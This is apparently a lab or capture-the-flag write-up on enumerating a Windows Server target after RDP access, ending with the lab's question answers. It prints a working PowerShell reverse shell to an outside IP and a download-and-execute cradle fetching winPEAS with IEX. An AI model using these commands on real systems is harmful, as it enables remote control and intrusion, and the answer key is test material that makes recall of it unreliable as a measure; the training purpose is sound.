








The key objective is to understand what type of system we are dealing with, its purpose, and how it is configured - details that we couldn't obtain without local access. We can focus on the following areas, among others:

- User privileges and group memberships
- System tasks and scheduled processes
- Network configurations and listening ports
- Detailed system information like OS version, hardware details, and installed updates

## Reverse Shell

I noticed that since we were going to obtain information via command line and the rdp session was slow in response, I decided to launch a reverse shell in the cmd of the rdp session and listener on my device

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.15.166',4444);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```



I got a shell on my listener



---

## User Information

We know we are logged in as the user john, but next is to ascertain the permission he has

```powershell
whoami /priv
```



Only one privilege is enabled

- `SeChangeNotifyPrivilege` lets the user bypass directory traversal checks to navigate folders without explicit permissions (though it’s not immediately useful for us)

Lets take a look at the groups we are member of

```
whoami /groups
```



Our user `john` belongs to several standard Windows groups like `Users`, `Remote Desktop Users`, and `Event Log Readers`

These groups grant basic access permissions but also suggest that this user has remote desktop capabilities, which we used to obtain a RDP session

The group memberships indicate this might be a regular user account with limited privileges, but we can perform additional checks with the commands systeminfo and wmic qfe.

```
systeminfo
wmic qfe
```

`systeminfo` : shows detailed info about the windows system
`wmic qfe` : lists all installed windows update


Both commands need admin privileges, basically elevated permissions in order to view system-level information, hence no output above

When administrators configure servers, they often want to optimize the server to their own needs and comfort. One way to do so is by scheduling tasks and operations, and having them happen on regular basis. We can view the the scheduled tasks on the target with the following command

```
schtasks /query /fo LIST /v
```



When examining this extensive list, we can identify a scheduled backup task running under the administrator account. The "Task To Run" line reveals the exact command executed by the administrator, providing valuable information that we must document for further analysis.



We can also use [winpeas](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS) to help in enumeration. Since powershell is enabled, we can utilise the powershell script

Download the latest release to our host machine

```bash
wget https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1
```

Start a python server for the transfers

```bash
python3 -m http.server 8000
```



On the windows target machine, use the oneliner below to download the script, execute it and redirect the output to a file winpeas.txt

```
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.15.166:8000/winPEAS.ps1')" > winpeas.txt
```



Summary of the output

Now, let’s create a summary of the key findings from our Windows system enumeration:

- `System Access`: We have local access as user `john` who is part of several groups including Remote Desktop Users and Event Log Readers
- `Unusual Permission`: We found write privileges to `C:\\ProgramData` directory, which is a security concern
- `Network Services`: Multiple ports are open including 22 (SSH), 3389 (RDP), 3000, 8000, and various Windows services
- `System Details`: Running Windows Server 2019 Standard with 4GB RAM, installed on June 12, 2024
- `User Privileges`: The account has a notable privilege including SeImpersonatePrivilege
- `Network Configuration`: System has one network interface with multiple IP addresses, including IPv6 addresses
- `Scheduled Tasks`: Located a PowerShell script named `backupprep.ps1` in the system that is being run as the administrator

These findings give us a decent overview of the target, but not much in terms of vulnerabilities. However, we still have the writable `C:\\ProgramData` directory and the `backupprep.ps1` script in the scheduled tasks, which runs as the administrator.

---

## Q/A

1. What is the task name that repeats every 2 minutes? (Format: name)

```
CorpBackupAgent
```

2. What is the SID of the user "john"?

```
S-1-5-21-481531802-3248398329-2133938904-1002
```

3. What is the exact OS Version that WinPEAS delivers?

```
10.0.17763 N/A Build 17763
```

4. How many hotfixes are installed on the Windows target?

```
5
```


---

